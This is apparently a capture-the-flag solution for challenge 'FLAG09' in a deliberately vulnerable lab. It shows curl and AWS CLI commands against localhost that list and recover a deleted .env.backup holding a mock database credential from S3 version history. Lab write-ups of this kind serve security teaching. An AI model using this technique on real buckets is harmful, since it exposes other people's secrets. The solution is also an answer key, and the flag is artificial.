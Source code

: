 
## FLAG09: Stale Fork Secrets (150 points) - Easy

### Vulnerability
Source Control - S3 Versioning Exposure

### What You'll Learn
- Exploiting S3 versioning to recover deleted files
- Understanding data retention policies
- Recognizing secrets in version history

### Solution

Step 1: List deleted files in S3 using versioning
```bash
curl http://localhost:8000/api/reports/deleted
```

Expected Response:
```json
{
  "bucket": "dvtc-internal-reports",
  "deleted_files": [
    {
      "key": ".env.backup",
      "version_id": "AZoTlPTtKg0...",
      "status": "deleted"
    }
  ],
  "hint": "Use /api/reports/deleted/{key} to recover deleted files"
}
```

Step 2: Recover the deleted `.env.backup` file
```bash
curl "http://localhost:8000/api/reports/deleted/.env.backup"
```

Expected Response:
```json
{
  "bucket": "dvtc-internal-reports",
  "key": ".env.backup",
  "content": "DELETED: Database credentials\npostgres://admin:flag{internet_never_forgets}@db.dvtc.internal:5432/trustcenter\n",
  "flag": "flag{internet_never_forgets}",
  "message": "FLAG09: Deleted files recovered from S3 versioning",
  "warning": "VULNERABILITY: S3 versioning retains deleted files indefinitely"
}
```

Flag: `flag{internet_never_forgets}`

Alternative (Using AWS CLI):
```bash
# List versions
aws --endpoint-url=http://localhost:4566 s3api list-object-versions \
  --bucket dvtc-internal-reports --prefix .env.backup

# Get specific version
aws --endpoint-url=http://localhost:4566 s3api get-object \
  --bucket dvtc-internal-reports \
  --key .env.backup \
  --version-id <VERSION_ID> \
  output.txt
```
